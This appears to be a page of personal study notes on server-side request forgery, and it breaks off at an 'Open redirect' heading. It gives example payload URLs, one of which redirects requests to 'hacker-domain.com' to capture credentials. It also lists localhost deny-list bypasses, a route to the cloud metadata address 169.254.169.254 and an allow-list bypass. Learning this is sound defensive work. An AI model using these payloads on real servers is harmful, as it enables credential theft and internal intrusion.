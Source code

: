## SSRF
Server-Side Request Forgery its a vulnerability that allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing.
### Full control
When the webserver expects us to give them a certain url as a request from them to retreive information and leaves us the whole url to send we can then instead send another request of our liking
expected:
[http://website.com/stock?url=**http://api.website.com/api/stock/item?id=123**] 
given:
[http://website.com/stock?url=**http://apiwebsite.com/api/user**]
### Control over path
Similar to directory traversal we can use ../ to navegate through the path to reach our destination
expected:
[http://website.com/stock?url=**/item?id=123**]
given:
[http://website.com/stock?url=**../user**]
### Control over subdomain
If we only have control over the subdomain request we can append &x= at the end of our request to turn the rest of the original http request into a parameter (?x=) on the query string
expected:
[http://website.com/stock?server=**api**&id=**123**]
given:
[http://website.com/stock?server=**api.website.com/api/user&x=**&id=**123**]
### Redirect request
If we again have control over the full request, we can then instead request access to a server of our choice so we can capture request headers that could contain authentication credentials or API keys sent by the website
expected:
[http://website.com/stock?url=**http://api.website.com/api/stock/item?id=123**] 
given:
[http://website.com/stock?url=**http://hacker-domain.com/**] 
### Common defenses
#### Deny List
A deny list is where all requests are accepted apart from resources specified in a list or that match a particular pattern. Common endpoints to restrict access is the localhost so domain dames sucha as localhost and 127.0.0.1 would appear on a deny list.
A way to bypass this is to use alternative localhost references such as
* 0
* 0.0.0.0
* 0000
* 127.1
* 127.\*.\*.*
* 2130706433
* 017700000001
* Subdomains that have a DNS record which resolves to the IP address such as 127.0.0.1.nip.io
In some cloud environments a common IP to block would be 169.254.169.254 which contains metadata for the deployed server including possibly sensitive information. A way to bypass this is to register a subdomain on our own domain with a DNS record that points to that IP address.
#### Allow list
An allow list is where every request gets denied unless they appear as whitelisted. Such as a rule that an URL must begin with **https://website.com** An attacker could circumvent this rule by creating a subdomain for our own domain such as **https://website.com.attacker.com** thus bypassing that logic.
#### Open redirect